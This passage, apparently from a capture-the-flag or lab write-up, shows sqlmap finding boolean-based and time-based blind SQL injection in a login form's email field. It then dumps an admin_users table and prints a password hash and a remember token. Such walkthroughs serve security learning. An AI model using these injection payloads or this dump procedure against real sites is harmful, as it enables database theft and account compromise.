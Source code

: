 SQLMap will run through various testing and finally outputs the following SQLi payload vector: 
```bash
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 740 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=dYO4vOgTHvWuFtokXlGhVLHXriYp8kYB1Yo8j2dB&email=' AND 8285=(SELECT (CASE WHEN (8285=8285) THEN 8285 ELSE (SELECT 6149 UNION SELECT 2422) END))-- WnyW

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=dYO4vOgTHvWuFtokXlGhVLHXriYp8kYB1Yo8j2dB&email=' AND 4736=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- gecx
---
[12:10:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
```
***KEY TAKEWAYS:***
- Database Management System (DMBS) = MySQL
- SQLi Payload Types: Boolean-based blind & Time-based blind

I will re-run the sqlmap command again but with two appended parameters:
- `--dump` = Dump the Database table entries
- `-dmbs MySQL` = Specify the DBMS system in use
SQLMap will utilize the information from the previously conducted scan to expedite the process and skip right to dumping the DB's contents. 

![SQLMap Database and Table Identified](SQLMap-Database and Table Identified.png)
_SQLMap Usage DB & Table_

SQLMap identified the `usage_blog` database and the `admin_users` table so I will cancel the current sqlmap command and append the folllowing commands to expedite the enumeration process again:
- `-D usage_blog` = Specify database to enumerate 
- `-T admin_users` = Designate table to dump entries from

From the above SQLMap commands we have gathered the following information:
```bash
[12:50:03] [INFO] retrieved: id
[12:50:11] [INFO] retrieved: username
[12:50:41] [INFO] retrieved: password
[12:51:14] [INFO] retrieved: name
[12:51:29] [INFO] retrieved: avatar
[12:51:50] [INFO] retrieved: remember_token
[12:52:37] [INFO] retrieved: created_at
[12:53:14] [INFO] retrieved: updated_at
[12:53:58] [INFO] fetching entries for table 'admin_users' in database 'usage_blog'
[12:53:58] [INFO] fetching number of entries for table 'admin_users' in database 'usage_blog'
[12:53:58] [INFO] retrieved: 1
[12:54:00] [INFO] retrieved: Administrator
[12:54:47] [INFO] retrieved: 
[12:55:22] [INFO] retrieved: 2023-08-13 02:48:26
[12:56:39] [INFO] retrieved: 1
[12:56:42] [INFO] retrieved: $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
[13:01:18] [INFO] retrieved: kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT
[13:06:00] [INFO] retrieved: 2023-08-23 06:02:19
[13:07:25] [INFO] retrieved: admin
```
- `username` = admin
- `password` = $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
